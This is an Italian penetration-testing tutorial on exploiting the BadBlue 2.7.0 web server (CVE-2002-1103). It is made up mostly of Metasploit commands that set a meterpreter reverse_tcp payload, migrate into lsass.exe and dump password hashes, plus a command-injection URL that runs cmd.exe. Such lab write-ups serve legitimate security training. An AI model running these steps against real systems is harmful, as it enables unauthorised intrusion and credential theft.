 # CVE-2002-1103 BadBlue

**BadBlue** è un server web per Windows originariamente sviluppato per la condivisione di file su piccola scala. È stato distribuito come freeware nei primi anni 2000 ed è noto per la sua interfaccia semplice e la leggerezza.

Tuttavia, versioni obsolete di BadBlue – in particolare la **versione 2.7.0** – sono affette da una **vulnerabilità critica** che permette l'esecuzione remota di codice (**RCE**) sfruttando una cattiva gestione delle richieste HTTP e delle variabili CGI. Questo lo rende un target interessante nei contesti di penetration testing su macchine legacy o ambienti lab.

---

## Introduzione alla vulnerabilità

Il software BadBlue include un interprete integrato per script **.ext**, che possono eseguire comandi sul sistema. Tuttavia, non esiste un controllo adeguato su ciò che può essere eseguito tramite input remoto.

La vulnerabilità sfrutta il fatto che una richiesta GET/POST opportunamente formattata può iniettare comandi direttamente nel sistema operativo ospitante, ottenendo **completa esecuzione di codice arbitrario** con i privilegi dell’utente che esegue il processo.

La vulnerabilità è stata storicamente catalogata come **CVE-2002-1103**, anche se exploit più moderni si riferiscono spesso a **BadBlue passthru.exe RCE**.

---

## Exploiting con Metasploit

Metasploit offre un modulo dedicato all’exploit RCE di BadBlue:

`use exploit/windows/http/badblue_passthru` ⟶ modulo exploit per il servizio CGI di BadBlue. <br>
`set RHOST <IP>` ⟶ indirizzo della macchina target. <br>
`set RPORT 80` ⟶ porta del server BadBlue. <br>
`set PAYLOAD windows/meterpreter/reverse_tcp` ⟶ payload per ottenere shell. <br>
`set LHOST <KaliIP>` ⟶ IP locale della macchina di attacco. <br>
`set LPORT <Port>` ⟶ porta in ascolto. <br>
`run` ⟶ avvia l’exploit e tenta di ottenere la reverse shell. <br>

Se l’attacco va a buon fine, si riceverà una sessione Meterpreter con i privilegi del processo BadBlue (spesso SYSTEM).

Dopo l’esecuzione e l’apertura di una sessione Meterpreter, si cerca il processo `lsass.exe` (Local Security Authority Subsystem Service), responsabile della gestione delle autenticazioni sul sistema. È proprio all'interno della memoria di questo processo che vengono archiviati gli hash NTLM e le credenziali in chiaro.

`ps | grep lsass` ⟶ Puoi identificare il PID di LSAS 

Una volta ottenuto il PID, si migra il payload di Meterpreter dentro LSASS

`migrate <PID>` ⟶ il PID dev'essere quello di lsass

Verifica che l’utente corrente abbia privilegi SYSTEM

`getuid`

Il risultato atteso dovrebbe essere simile a:
```
Server username: NT AUTHORITY\SYSTEM
```

Il modulo sfrutta il file **passthru.ext**, usato da BadBlue per interpretare e inoltrare richieste.  
Un esempio di URL vulnerabile potrebbe essere:

`http://<IP>/ext.dll?m=passthru&b=cmd.exe+/c+dir`

Con questa richiesta, viene eseguito `cmd.exe /c dir`, mostrando la lista dei file nella directory di lavoro.

---

## Verifica e post-exploitation

Una volta ottenuta la shell:

`getuid` ⟶ verifica l’utente attuale (es. `NT AUTHORITY\\SYSTEM`). <br>
`getprivs` ⟶ elenca i privilegi ottenuti. <br>
`hashdump` ⟶ se possibile, estrae gli hash utente da SAM. <br>
`migrate <PID>` ⟶ consente di migrare ad un processo più stabile. <br>

---
